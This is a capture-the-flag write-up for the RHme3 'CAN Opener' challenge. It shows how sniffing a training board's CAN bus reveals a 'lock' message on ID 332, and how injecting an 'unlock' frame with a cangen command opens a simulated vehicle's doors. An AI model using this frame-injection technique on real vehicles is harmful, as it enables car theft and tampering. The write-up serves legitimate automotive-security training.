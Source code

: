 # [CAN Opener](https://rhme.riscure.com/3/challenge?id=13)

Controller Area Network - 150pts

## Challenge text

Our operatives have recovered a DeLorean in the ruins of an old mid-west US town. It appears to be locked, but we have successfully accessed its internal communications channels. According to the little data we have, the DeLorean internally uses an archaic technology called CAN bus. We need you to analyze the communications and find a way to unlock the vehicle; once unlocked, recover the secret flag stored inside. We have reason to believe that vehicle entry should be a fairly easy challenge, but to aid you in this, we have restored and reconnected the vehicle dashboard.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge is basically to identify which CAN ID controls door locks, rewrite it, and manually feed it back onto the CAN bus.  It's that simple.

### Preparation

If you haven't done so already, follow the [Beaglebone Black CAN setup](../Preparation/BBB_CAN_setup.md) guide to get ready for working with CAN bus.

Make the following connections:
* Connect the two ECUs on the RHme3 board using jumpers.
* Connect the Beaglebone Black to the RHme3 ECUs using twisted pair wiring via a CAN transciever such as a Carloop CAN Hitch.  The Beaglebone Black is capable of using two CAN transcievers, but you only need one for this challenge.

![Single CAN Hookup](../Images/can_hookup_single.jpg)

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that CAN ID 332 may be useful:

	$ cansniffer -c can0
	332  6C 6F 63 6B 00 00 00 00 lock....

### Attack

Let's attempt to rewrite this as "unlock" and feed it back using cangen:

	332  75 6E 6C 6F 63 6B 00 00 unlock..
	$ cangen -I 332 -L 8 -D 756E6C6F636B0000 -n 5 can0

On the dashboard, the door indicator lights up and the flag is displayed in the lower left corner.

![CAN Opener Dashboard with FLAG](../Images/can_opener_dashboard.png)
